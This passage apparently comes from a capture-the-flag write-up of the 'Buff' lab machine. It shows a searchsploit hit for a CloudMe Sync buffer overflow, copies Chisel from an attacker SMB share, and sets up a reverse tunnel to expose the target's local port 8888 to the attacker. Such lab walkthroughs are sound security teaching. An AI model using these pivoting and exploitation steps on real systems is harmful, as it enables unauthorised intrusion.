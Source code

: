     CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                     | windows_x86-64/remote/44784.py
    ----------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
    

The version number for the top two (1.11.2) lines up nicely with the EXE name
from Buff (`CloudMe_1112.exe`).

### Tunnel

To exploit this service, I’ll need a tunnel from my box to Buff (or I’d have
to run the exploit from Buff, but Python isn’t typically installed on
Windows). I’ll use my favorite tool for this,
[Chisel](https://github.com/jpillora/chisel). I’ll use the same SMB share and
copy the Windows binary to where I’m staging in `\programdata`.

    
    
    C:\ProgramData>copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe
    copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe       
            1 file(s) copied.
    

Now I’ll run the Linux binary on Kali in server mode:

    
    
    root@kali:/opt/chisel# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/07/19 07:03:48 server: Reverse tunnelling enabled
    2020/07/19 07:03:48 server: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
    2020/07/19 07:03:48 server: Listening on 0.0.0.0:8000...
    

Next, from Buff, I’ll run as a client:

    
    
    C:\ProgramData>.\c.exe client 10.10.14.20:8000 R:8888:localhost:8888
    .\c.exe client 10.10.14.20:8000 R:8888:localhost:8888           
    2020/07/19 20:07:45 client: Connecting to ws://10.10.14.20:8000 
    2020/07/19 20:07:45 client: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
    2020/07/19 20:07:45 client: Connected (Latency 1.0595ms)
    

I can see the connection at the server as well:

    
    
    2020/07/19 15:06:13 server: proxy#1:R:0.0.0.0:8888=>localhost:8888: Listening
    

I can see my local box is listening on 8888:

    
    
    root@kali# netstat -ntlp
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 127.0.0.1:38153         0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 127.0.0.1:54261         0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      13166/./chisel_1.6. 
    tcp6       0      0 :::8000                 :::*                    LISTEN      13166/./chisel_1.6. 
    tcp6       0      0 127.0.0.1:41643         :::*                    LISTEN      2654/java           
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      2654/java 
    